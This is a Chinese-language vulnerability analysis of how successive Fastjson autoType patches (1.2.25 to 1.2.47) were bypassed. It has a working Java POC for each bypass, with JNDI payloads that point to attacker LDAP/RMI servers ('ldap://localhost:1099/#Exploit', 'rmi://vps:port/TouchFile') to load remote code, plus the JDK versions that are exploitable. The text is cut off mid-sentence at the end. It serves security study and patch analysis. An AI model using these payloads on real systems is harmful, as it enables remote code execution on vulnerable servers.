



# FastJson各版本补丁绕过分析

## 1.2.25~1.2.41

关于1.2.25的修复改动

1. `autotype`默认为`false`
2. 增加 `checkAutoType` 方法，在该方法中进行黑名单校验，同时增加白名单机制

绕过方法：使用`L;`进行绕过

在maven中将`fastjson`的版本改为`1.2.25`再去执行原来的POC就会发现已经无法执行了。报错是不支持`autoType`


先看看在1.2.25版本中修复的一些点，可以使用idea中的compare来diff一下1.2.24和1.2.25版本的变化


这个方法会记录汇总在学习中的小tips当中。

在1.2.25中更新增加了一个`checkAutoType`方法来检测，下面开始调试，跟进


这里是先进行了一个判断，只要不为空，即可继续进行，随后给`className`赋值，做了下替换`TypeName`的值，如果存在`$`则替换为`.`

继续到这里会发现，都是两个条件都为false，直接跳到后面


这里未开启`autoType`即为`true`，所以进入循环进行黑名单判断


这边可以看到，`com.sum.`是在黑名单中的，所以这里直接抛出异常，不支持这个`com.sun.rowset.JdbcRowSetImpl`


后面这部分虽然没有走，但是可以看出来是白名单，如果传入的`className`的值不是在黑名单中的，那就将它添加到白名单中。符合前面所有条件后再去`loadClass`


这个是更新的补丁做的修复。下面看绕过的分析

开启`autotype`在POC中添加下面的代码

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

现在的POC，我打算一步一步来，先看开启autotype后是走到哪里


调试一下

这是我下的断点（随便下的，看哪里顺眼就往哪下）


基本可以看懂逻辑了。还是跟踪一下看看


直接来到这里，已经开启`autotype`就直接走这里了，但是由于白名单是空的，所以来判断黑名单了，再次被匹配到，直接抛出异常。


再次修改POC，这次将类的写法换成`Lcom.sun.rowset.JdbcRowSetImpl;`


再次调试，这次前面重复的就不跟了，直接到`Lcom.sun.rowset.JdbcRowSetImpl;`不匹配黑名单后面


这里依旧是进入判断，继续执行，跟进`TypeUtils.loadClass`中


可以发现这里有一个非常契合我们POC中的payload的点

```java
if (className.startsWith("L") && className.endsWith(";")) {
            String newClassName = className.substring(1, className.length() - 1);
            return loadClass(newClassName, classLoader);
        }
```

`className`是以`L`开头，以`;`结尾那么将它使用`substring`方法截取一下，真有趣，不知道是不是为了这个漏洞专门写的方法哈哈哈


又重新得到了`com.sun.rowset.JdbcRowSetImpl`再去`loadClass`，就可以愉快的进行后面的步骤了

## 1.2.25~1.2.42

这个版本修复了1.2.41时的漏洞，具体修复情况看官方修改的代码


再一次进行了`loadClass`，这个过滤比较无语，在写一次就能绕过，也就是双写`L;`

POC

```java
public class POC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String st = "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\"," +
                "\"dataSourceName\":\"ldap://localhost:1099/#Exploit\", \"autoCommit\":true}";
        JSON.parse(st);
    }
}
```



`loadClass:1091`去掉一层`L;`，第二次再次去掉一层`L;`就得到了`com.sun.rowset.JdbcRowSetImpl`

经历两次一模一样的方法处理。


## 1.2.25~1.2.43

在1.2.43版本的补丁修复中，增加了以下验证，也就是在checkAutoType后又添加了一层判断逻辑

```java
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
    if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
        throw new JSONException("autoType is not support. " + typeName);
    }

    className = className.substring(1, className.length() - 1);
}
```

在`loadClass`前面执行，如果是双写`L`就会抛出异常。

所以双写`L`这边也给禁掉了。还有一个思路是跟判断开头是`L`结尾是`;`的逻辑的同步逻辑中，还有这样一段代码。

```java
else if (className.charAt(0) == '[') {
    Class<?> componentType = loadClass(className.substring(1), classLoader);
    return Array.newInstance(componentType, 0).getClass();
```

现在大致是这么理解，然后现在说POC

```java
public class POC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String st = "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1099/#Exploit\", \"autoCommit\":true}";
        JSON.parse(st);
    }
}
```

原本的POC是这样，只是在`autotype`的值前面加上一个`[`，来调用`Array.newInstance`去绕过禁用双`L`的修复。但是这样执行POC的话，会报错。


意为希望42列这里存在一个`[`至于是为什么，这个不清楚，但是稍微想一想，他一定不会是开发在提示你这个漏洞的POC该怎么写吧。所以就猜测可能是语法问题。至于为什么写，不深究（是因为也看不懂）

然后继续执行POC


再次报错，希望在43列的位置存在一个`{`

继续添加上去，再次执行，可以看到成功执行并弹出计算器


这也就是这个版本的修复与绕过

## 1.2.25~.12.45

这个就不做复现了，因为这个是利用了一个黑名单中没有的类进行攻击的，所以大概描述下，正常进行反序列化走流程就可以触发。

这里需要安装额外的库 mybatis
mybatis也是比较常用的库了 orm框架

```
<dependency>
    <groupId>org.mybatis</groupId>
    <artifactId>mybatis</artifactId>
    <version>3.5.5</version>
</dependency>
```

POC

```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class POC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String st = "{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"properties\":{\"data_source\":\"rmi://vps:port/TouchFile\"}}";
        JSON.parse(st);
    }
}

```

关于这个包中利用到的类和方法



看到这边`JndiDataSourceFactory`类中，这里的`setProperties`方法中调用了`InitialContext.lookup()

其中参数是POC中输入的`properties`属性值自定义为`data_source`然后就可以进行利用并出发漏洞了。

## 1.2.25~1.2.47

这里有点不一样，所以再写一次

- 1.2.25-1.2.32版本：未开启`AutoTypeSupport`时能成功利用，开启AutoTypeSupport反而不能成功触发；

- 1.2.33-1.2.47版本：无论是否开启`AutoTypeSupport`，都能成功利用；

还有就是jdk版本的限制和相应版本调用的是RMI还是JNDI的限制了

基于RMI利用的JDK版本<=6u141、7u131、8u121，基于LDAP利用的JDK版本<=6u211、7u201、8u191

然后先尝试利用一下

```java
package JDBC;

import com.alibaba.fastjson.JSON;
//import com.alibaba.fastjson.parser.ParserConfig;

public class POC {
    public static void main(String[] argv){
        //ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload  = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},"
                + "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\","
                + "\"dataSourceName\":\"ldap://localhost:1099/#Exploit\",\"autoCommit\":true}}";
        JSON.parse(payload);
    }
}
```

这里我使用的是ldap而不是rmi，因为我的jdk版本是8u172，使用rmi协议是无法利用成功的。



下面开始分析，看下POC是通过`java.lang.Class`，将`JdbcRowSetImpl`类加载到`Map`中缓存，从而绕过AutoType的检测。因此将payload分两次发送，第一次加载，第二次执行。默认情况下，只要遇到没有加载到缓存的类，`checkAutoType()`就会抛出异常终止程序。

下断点进行调试，在
